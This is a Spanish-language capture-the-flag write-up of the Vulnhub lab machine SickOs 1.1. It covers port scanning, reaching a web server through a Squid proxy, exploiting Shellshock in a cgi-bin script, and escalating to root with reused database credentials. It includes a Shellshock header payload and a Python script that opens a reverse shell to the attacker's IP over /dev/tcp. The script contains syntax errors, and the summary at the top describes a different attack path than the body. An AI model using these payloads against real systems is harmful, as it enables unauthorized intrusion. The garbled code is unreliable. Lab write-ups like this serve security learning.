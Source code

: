 ```yaml
---
title: Sickos 1
author: ssanjua
datetime: 2024-09-10T17:00:12.000+00:00
slug: SickOS 1 - Vulnhub
featured: true
tags:
  - Vulnhub
  - Privilege-scalation
  - Medium
description:
  This is a Linux box that involved exploiting the PUT http method to upload a PHP script through which a reverse shell can be obtained, and then using a known vulnerability in the chkrootkit program to escalate to root.
---
```


- **Name**: SickOs: 1.1
- **Date release**: 11 Dec 2015
- **Author**: [D4rk](https://www.vulnhub.com/author/d4rk,199/)
- **Series**: [SickOs](https://www.vulnhub.com/series/sickos,70/)
- 
## Description

This CTF gives a clear analogy how hacking strategies can be performed on a network to compromise it in a safe environment. This vm is very similar to labs I faced in OSCP. The objective being to compromise the network/machine and gain Administrative/root privileges on them

## About Release

Name........: SickOs1.1
Date Release: 11 Dec 2015
Author......: D4rk
Series......: SickOs
Objective...: Get /root/a0216ea4d51874464078c618298b1367.txt
Tester(s)...: h1tch1
Twitter.....: https://twitter.com/D4rk36

---
## Reconocimiento

Primero tratamos de reconocer la IP de nuestro objetivo con arp-scan.

```bash
sudo arp-scan -I eth0 --localnet --ignoredups
```

![Descripción](../../assets/img-content/sickOs(1).png)

Nuestro target es el: `192.168.128.132` procedemos a hacer un escaneo nmap para ver que puertos tiene abiertos y descubrimos el puerto **22** y el **3128**.

```bash
nmap -p- --open -sT -vvv --min-rate 5000 -n -Pn 192.168.128.132 -oG allPorts
```

Not shown: 65532 filtered tcp ports (no-response), 1 closed tcp port (conn-refused)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT     STATE SERVICE    REASON
22/tcp   open  ssh        syn-ack
3128/tcp open  squid-http syn-ack

Datos que extraemos del reconocimiento: 
- Squid-http syn-ack
- Puertos filtrados

![Descripción](../../assets/img-content/sickOs(2).png)

Investigamos un poco sobre los **Server Squid**:

Squid is a caching proxy for the Web supporting HTTP, HTTPS, FTP, and more. It reduces bandwidth and improves response times by caching and reusing frequently-requested web pages. Squid has extensive access controls and makes a great server accelerator. It runs on most available operating systems, including Windows and is licensed under the GNU GPL. [Definicion web](https://www.squid-cache.org/)

Por lo tanto sabemos que lo que esta haciendo el puerto es servir como proxy, por lo que podemos pensar que se esta corriendo un server en el puerto 80 y que esta usando el Squid como proxy:

Intentamos hacer un curl la ip intermediando un proxy por el puerto **3128** que es el puerto abierto atraves de el servidor Squid proxy.

![Descripción](../../assets/img-content/sickOs(4).png)

![Descripción](../../assets/img-content/sickOs(5).png)

![Descripción](../../assets/img-content/sickOs(6).png)

Ahora podemos intentar listar directorios usando el proxy.

![Descripción](../../assets/img-content/sickOs(7).png)

Al descubrir un directorio **cgi-bin** nos alerta porque sabemos que si existe este es probable que estemos en presencia de una probable **Shell Shock** [ShellShock - CGI](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/cgi)

Vemos si obtenemos algo mas de este dir:

![Descripción](../../assets/img-content/sickOs(10).png)
![Descripción](../../assets/img-content/sickOs(9).png)

Buscamos por la web mas información acerca de los **Shell Shock** y encontramos un viejo articulo [Shell Shock](https://blog.cloudflare.com/inside-shellshock/)

>For example, if example.com was vulnerable then

```bash
curl -H "User-Agent: () { :; }; /bin/eject" http://example.com/
```

Lo intentamos cambiando la instruccion, usando solo la cabecera del ejemplo:

![Descripción](../../assets/img-content/sickOs(11).png)

Efectivamente tenemos ejecución de comando, por lo que vamos a intentar obtener una **Reverse shell** atraves de un script de python:

```python
#!/user/bin/python3
    
 import sys, signal, requests
 import threading
from pwn import *

def def_handler(sig, frame):
	print("\n[!] - exiting... \n")
	sys.exit(1)
	signal.signal(signal.SIGINT, def_handler)
	main_url = "http://192.168.128.132/cgi-bin/status"
	squid_proxy = {"http": "http://192.168.128.132:3128"}

def shellshock_attack():
	headers = {'User-Agent': "() { :; };
	echo; /bin/bash -c '/bin/bash -i dev/tcp/192.168.128.131/443 0>&1'"}
	r = requests.get(main_url, headers=headers, proxies=squid_proxy) 

if __name__ == '__main__':
	try:
		threading.Thread(target=shellshock_attack, args()).start()
	except Exception as e:
		log.error(str(e))
```

Ejecutamos mientras escuchamos por el puerto que elegimos en el script:

![Descripción](../../assets/img-content/sickOs(22).png)

Lo logramos, estamos dentro de la maquina victima y podemos ejecutar comandos, ahora tenemos que escalar nuestro privilegio.

Exploramos y encontramos una info interesante dentro del config.php en /var/www/wolfcms (que estaba en el robots.txt pero decidí no explorar esa via)

Dentro de este archivo estan las credenciales para autenticarse en la base de datos, tenemos el *User* y *Password* que podemos utilizar para intentar escalar privilegios en la maquina.

- User: 'root'
- Password: 'john@123'


![Descripción](../../assets/img-content/sickOs(17).png)

La shell es antigua por lo que su googleas el output siguiente te aconsejan actualizar la shell.

![Descripción](../../assets/img-content/sickOs(18).png)

Actualizamos e intentamos autenticar con las credenciales encontradas:

```python
python -c 'import pty;pty.spawn("/bin/bash")'
```

![Descripción](../../assets/img-content/sickOs(19).png)

Pues si! Funcionó, lo intentamos de nuevo y... 

![Descripción](../../assets/img-content/sickOs(20).png)

Ya somos **root**.

![Descripción](../../assets/img-content/sickOs(21).png)

Flag encontrada!